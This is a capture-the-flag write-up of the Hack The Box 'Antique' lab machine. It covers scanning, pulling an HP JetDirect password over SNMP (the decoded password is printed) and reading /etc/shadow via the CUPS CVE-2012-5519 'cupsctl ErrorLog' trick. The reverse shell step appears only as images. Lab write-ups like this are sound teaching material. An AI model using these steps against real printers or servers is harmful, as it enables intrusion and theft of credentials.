 ```yaml
---
title: "[HTB] Machine: Antique"
description: "[HTB] Machine: Antique"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Antique"
    identifier: htb-machine-Antique
    parent: htb-machines-linux
    weight: 10
hero: images/antique.png
tags: ["HTB", "printer", "jetdirect", "telnet", "snmp", "snmpwalk", "cups", "cve-2012-5519", "hashcat", "shadow"]
---
```


# Antique
## Enumeration
- `nmap`

```
└─$ nmap -sC -sV -Pn 10.10.11.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 15:59 BST
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94%I=7%D=8/9%Time=64D3A9E6%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
SF:word:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRequ
SF:est,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSV
SF:ersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusRe
SF:questTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerber
SF:os,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(
SF:LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSer
SF:ver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"\
SF:nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect\
SF:n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetDi
SF:rect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.59 seconds

```
- `telnet`
```
└─$ telnet 10.10.11.107     
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```
- Nothing to see, so I scanned `UDP` ports
```
└─$ sudo nmap -sU -sV 10.10.11.107
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 16:38 BST
Stats: 0:09:01 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
Nmap scan report for 10.10.11.107 (10.10.11.107)
Host is up (0.10s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1013.71 seconds
```
- `snmp`
```
└─$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
## Foothold/User
- According to this [post](http://www.irongeek.com/i.php?page=security/networkprinterhacking#JetDirect%20password%20notes) we can retrieve password
  - We need to ask for `.1.3.6.1.4.1.11.2.3.9.1.1.13.0`

```
└─$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

- Now we need to convert it from hex to ascii

![](./images/1.png)

- Try password for `telnet`
  - `P@ssw0rd@123!!123`

![](./images/2.png)

- Let's call help menu

![](./images/3.png)

- Now let's try get execution and reverse shell

![](./images/4.png)

![](./images/5.png)

## Root
- Enumeration shows port `631` open

```
lp@antique:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1016/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                    
```

- We can perform port forwarding using `chisel`
  - Or check the list of processes and take a guess
  - We see `cups` service
  - Checking config shows that indeed port `631` belongs to `cups`

![](./images/6.png)

![](./images/7.png)

- If we `curl` we see the version is `1.6.1`

![](./images/8.png)

- If we check [github post](https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh)
  - We see that we need to call `cupsctl ErrorLog={FILE}`
  - And then `curl 127.0.0.1:631/admin/log/error_log?`
  - So let's read `shadow` file
  - It works, but it's not crackable

![](./images/9.png)
